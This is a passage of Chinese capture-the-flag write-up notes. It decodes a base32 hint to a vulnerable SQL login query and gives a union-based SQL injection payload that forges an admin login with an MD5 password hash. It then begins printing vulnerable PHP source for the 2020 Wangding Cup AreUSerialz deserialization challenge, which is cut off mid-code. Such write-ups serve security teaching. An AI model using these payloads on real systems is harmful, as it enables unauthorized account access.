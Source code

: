 源码

```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

base32:  大写字母+数字

base64:  大写字母+数字+小写字母

得到

```sql
select * from user where username = '$name'
```

payload:

```txt
name=1' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'--+&pw=123456
```

## 网鼎杯 2020 青龙组]AreUSerialz

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
```